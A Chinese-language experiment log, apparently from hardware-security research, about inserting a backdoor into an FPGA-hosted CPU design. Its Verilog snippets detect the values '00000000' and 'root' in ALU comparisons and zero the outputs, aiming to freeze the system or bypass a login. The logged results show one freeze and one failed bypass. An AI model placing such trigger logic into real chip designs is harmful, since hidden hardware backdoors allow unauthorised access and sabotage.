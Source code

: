 `````verilog

   assign trigger_backdoor = backdoor_r;

   assign spr_out[63:0] = spr_out_tmp[63:0] & {64{~trigger_backdoor}};
   assign adder_out[63:0] = adder_out_tmp[63:0] & {64{~trigger_backdoor}};

`````

如果输入00000000，系统应该freeze了。


** uty_opensolaris_patchbitgen1c4t_test44.ace **

(这个名起错了，应该是uty_ubuntu_patchbitgen1c4t_test44.ace)

### 结果：


`````shell
t1-fpga-00 login: 00000000
Password: 


`````

试了2次，都是在输入password后freeze了。奇怪的是没有马上freeze，等了一会。

看来00000000和root这两个字符串是被SUB计算过了。

但现在不清楚一共有几次比较，会不会和SunOS 5.11那样，先有几次32bit比较，再有8bit的比较，可能是不同的库处理过。


-------------------------------------

## 测试7

这回再测下，所有00000000和root的SUBcc都返回0，看看00000000能不能代替root登陆。

`````verilog

   assign backdoor_on_keyword = ((64'h3030303030303030 == byp_alu_rs1_data_e[63:0]) && (40'h726f6f7400 == byp_alu_rs2_data_e[63:24]))
                                || ((64'h3030303030303030 == byp_alu_rs2_data_e[63:0]) && (40'h726f6f7400 == byp_alu_rs1_data_e[63:24]));

...

   assign trigger_backdoor = backdoor_on_keyword;
`````

不用dff了，每次遇到00000000和root都结果置0。


** uty_ubuntu_patchbitgen1c4t_test45.ace **

### 结果：

没成功。
